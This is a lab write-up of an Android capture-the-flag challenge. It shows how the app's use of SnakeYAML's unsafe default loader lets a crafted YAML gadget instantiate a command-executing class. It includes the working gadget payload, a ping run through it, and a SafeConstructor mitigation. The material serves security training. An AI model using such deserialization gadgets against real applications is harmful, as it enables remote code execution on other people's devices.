 ```yaml
---
title: "[Android] MHL - config-editor"
description: "MHL - config-editor write-up"
pubDate: "2025-07-17"
---
```


<div style="display: flex; flex-wrap: wrap; align-items: flex-start;">
  <div style="flex: 1 1 300px; background-color: rgba(70, 130, 180, 0.1); color: #fff; margin: 1em 0; line-height: 1.4; font-size: 1rem; border-radius: 4px; overflow: hidden;">
    <div style="background-color: #6CA6D9; color: #000; padding: 0.5rem 1rem; border-top-right-radius: 4px; font-weight: bold;">
      🔎 Note
    </div>
    <div style="padding: 0.5rem 1rem; border-bottom: 1px solid rgba(108, 166, 217, 0.2);">
      <strong>Challenge: </strong> <a href="https://www.mobilehackinglab.com/course/lab-config-editor-rce" style="color: #4682B4; text-decoration: none;">Config Editor</a>
    </div>
    <div style="padding: 0.5rem 1rem; border-bottom: 1px solid rgba(108, 166, 217, 0.2);">
      <strong>Device: </strong> <a href="https://github.com/remote-android/redroid-doc" style="color: #4682B4; text-decoration: none;">redroid/redroid:13.0.0-latest</a>
    </div>
    <div style="padding: 0.5rem 1rem;">
      <strong>Tools: </strong> adb, frida, jadx, rizin.
    </div>
  </div>
</div>

---
## Overview

After installing the apk, let's unzip it to view its structure:

```bash
❯ mkdir decompiled
❯ unzip com.mobilehackinglab.configeditor.apk -d decompiled/
❯ ls decompiled/
AndroidManifest.xml  classes2.dex  DebugProbesKt.bin  res
assets               classes3.dex  kotlin             resources.arsc
classes.dex          classes4.dex  META-INF 
```

With this directory in our workspace, we'll open the application in our device:

<div style="display: flex; justify-content: center; margin: 20px auto; max-width: 800px; align-items: center;">
  <div style="flex: 1; text-align: justify; padding-right: 5%;">
    <p style="margin-left: 15px; line-height: 1.5;">The application has two buttons, the first one (<strong>Load</strong>) lets us upload a file, if the latter contains text, it will be printed on the screen; on the other hand, the second button (<strong>Save</strong>) lets us to download a <code>YAML</code> file called "example" by default, which contains the input file's content.</p>
    <p style="margin-left: 15px; line-height: 1.5;">Apparently, the application is parsing the input file content, based on the downloaded file, probably a <code>YAML</code> file is required, let's recursively grep our <code>decompiled</code> folder looking for the "yaml" pattern.</p>
  </div>
  
  <div style="flex: 0 0 180px; margin-right: 25px;">
    <img src="/images/Write-ups/config-editor/app-init.png" style="width: 100%; height: auto; max-width: 180px; border: 1px solid #ddd; box-shadow: 0 2px 4px rgba(0,0,0,0.1);"/>
    <p style="text-align: center; font-style: italic; margin-top: 8px; color: #555; font-size: 12px;">
      Figure 1: App initialization
    </p>
  </div>
</div>

```bash
❯ cd decompiled/
❯ grep -riE "yaml|yml"
grep: classes4.dex: binary file matches
grep: classes.dex: binary file matches
assets/example.yml: #Comment: This is a supermarket list using YAML
grep: res/drawable-ldrtl-xhdpi-v17/abc_spinner_mtrl_am_alpha.9.png: binary file matches

❯ cat assets/example.yml
#Comment: This is a supermarket list using YAML
#Note that - character represents the list
---
food:
  - vegetables: tomatoes #first list item
  - fruits: #second list item
      citrics: oranges
      tropical: bananas
      nuts: peanuts
      sweets: raisins

```

We found some files, the most relevant is `example.yml`, which contains a supermarket list in `YAML`, let's upload the latter to our application:

```bash
❯ adb -s localhost:5555 push assets/example.yml sdcard/Download/
```

<div style="display: flex; justify-content: center; margin: 20px auto; max-width: 800px; align-items: center;">
  <div style="flex: 0 0 180px; margin-right: 25px;">
    <img src="/images/Write-ups/config-editor/app-upload-yaml.png" style="width: 100%; height: auto; max-width: 180px; border: 1px solid #ddd; box-shadow: 0 2px 4px rgba(0,0,0,0.1);"/>
    <p style="text-align: center; font-style: italic; margin-top: 8px; color: #555; font-size: 12px;">
      Figure 2: Uploading a <code>YAML</code>
    </p>
  </div>
</div>

The application is parsing the example file. We'll make sure of this viewing the application code using `jadx`:

```
❯ jadx-gui com.mobilehackinglab.configeditor.apk&
```

<div align="center" style="margin: 20px 0;">
  <img src="/images/Write-ups/config-editor/jadx-main.png" style="max-width: 100%; height: auto; display: block; margin: 0 auto; border: 1px solid #ddd; box-shadow: 0 2px 4px rgba(0,0,0,0.1);"/>
  <p style="text-align: center; font-style: italic; margin-top: 8px; color: #555;">
    Figure 3: <code>MainActivity</code> analysis in jadx
  </p>
</div>

The Android Manifest doesn't have anything relevant. However, the `MainActivity` includes interesting logic; its core functionality lies in parsing `YAML` files using a third-party library called "SnakeYAML" (`import org.yaml.snakeyaml.Yaml`). The challenge involves an **RCE** vulnerability in a third-party library; therefore, we've identified our attack vector.

---
## SnakeYAML Vulnerability

Doing a quick search we can find a **SnakeYAML** CVE that involves remote code execution as long as the application uses an insecure constructor to deserialize the input file's content:

<div align="center" style="margin: 20px 0;">
  <img src="/images/Write-ups/config-editor/snakeyaml-cve.png" style="max-width: 100%; height: auto; display: block; margin: 0 auto; border: 1px solid #808080; box-shadow: 0 2px 4px rgba(0,0,0,0.1);"/>
  <p style="text-align: center; font-style: italic; margin-top: 8px; color: #555;">
    Figure 4: <code>SnakeYAML</code> remote code execution
  </p>
</div>

#### Breaks down the vulnerability:

Our application's code contains the vulnerability in the following line: `Object deserializedData = yaml.load(inputStream);`. First, note that `load` is a generic method which converts the input into a Java object and returns it inferred by the type of the target variable:

```java
public <T> T load(InputStream inputStream) {  
    return (T) loadFromReader(new StreamReader(new UnicodeReader(inputStream)), Object.class);  
}
```

In our case, `deserializedData` has the `Object` type, therefore, `load` will return an object of any type. But what does it mean for us? Well, we need to know something: **SnakeYAML** has a special feature that lets us create Java objects in the `YAML` file that will be parsed, as long as we use a particular syntax. 

Imagine the application has a class called `Greeting`, whose constructor receives a name and prints a greeting:

```java
package com.mytest.test

public class Greeting {
    public Greeting(String name) {
        System.out.println("Hello " + name + "!")
    }
}
```

By exploiting **SnakeYAML**'s vulnerability, we can instantiate this class with its parameter and, thus, execute the constructor's code. To do this, we need the following `YAML` gadget: 

```yaml
!!com.mytest.test.Greeting ["Camilo"]
```

**SnakeYAML**'s `!!` syntax allows arbitrary object instantiation (like `com.mytest.test.Greeting` in this case), where `[...]` defines the constructor parameters (here, a name). In short, with this payload, `deserializedData` becomes `new Greeting("Camilo")`. Now, let's exploit this on a real class in the application.

---
## Exploitation (PoC)

Pressing **Ctrl + N** in jadx, we can filter classes based on their names. In this case, we can type a regular expression that contains the name of relevant classes if they exist: 

<div align="center" style="margin: 20px 0;">
  <img src="/images/Write-ups/config-editor/jadx-classes.png" style="max-width: 100%; height: auto; display: block; margin: 0 auto; border: 1px solid #ddd; box-shadow: 0 2px 4px rgba(0,0,0,0.1);"/>
  <p style="text-align: center; font-style: italic; margin-top: 8px; color: #555;">
    Figure 5: Looking for interesting classes
  </p>
</div>

There is an interesting class in `com.mobilehackinglab.configeditor` package called `LegacyCommandUtil`:

```java
package com.mobilehackinglab.configeditor;  
  
// ...

public final class LegacyCommandUtil {  
    public LegacyCommandUtil(String command) {  
        Intrinsics.checkNotNullParameter(command, "command");  
        Runtime.getRuntime().exec(command);  
    }  
}
```

This is what we're looking for, `LegacyCommandUtil` lets us execute a command on the target device. As I explained, we can approach application's classes to build the `YAML` gadget, so, let's build a gadget capable of executing a simple command:

```yaml
!!com.mobilehackinglab.configeditor.LegacyCommandUtil ["ping -c 1 172.0.0.1"]
```

Before loading the payload in the application, I'll listen to **ICMP** traces on my host device using tcpdump:

```bash
❯ tcpdump -i docker0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on docker0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

<div style="display: flex; justify-content: center; margin: 20px auto; max-width: 800px; align-items: center;">
  <div style="flex: 0 0 180px; margin-right: 25px;">
    <img src="/images/Write-ups/config-editor/app-load-payload.png" style="width: 100%; height: auto; max-width: 180px; border: 1px solid #ddd; box-shadow: 0 2px 4px rgba(0,0,0,0.1);"/>
    <p style="text-align: center; font-style: italic; margin-top: 8px; color: #555; font-size: 12px;">
      Figure 6: Loading the payload
    </p>
  </div>
</div>

```bash
# We received the trace!
15:32:03.711959 IP Android.local > terreneitor: ICMP echo request, id 1, seq 1, length 64
15:32:03.712095 IP terreneitor > Android.local: ICMP echo reply, id 1, seq 1, length 64
```

This little example was useful to demonstrate the **RCE** vulnerability that involves **SnakeYAML**'s CVE. Now then, how can we mitigate this vulnerability?

#### Mitigation: 

The solution is simple: avoid using the default constructor of `YAML`, which allows arbitrary object instantiation through tags like `!!class`. Instead, use `SafeConstructor` to restrict deserialization to simple types such as maps, lists, strings, numbers, and booleans:

```java
Yaml yaml = new Yaml(new SafeConstructor()); 
Object data = yaml.load(input);
```

By doing this, any attempt to deserialize custom Java classes from `YAML` (e.g., `!!com.example.MyClass`) will fail safely. Since **SnakeYAML 2.0**, the library enforces stricter controls by default. Unsafe constructors must now be explicitly enabled; therefore, arbitrary object creation is disabled by default.

That's all, thanks for reading <3.

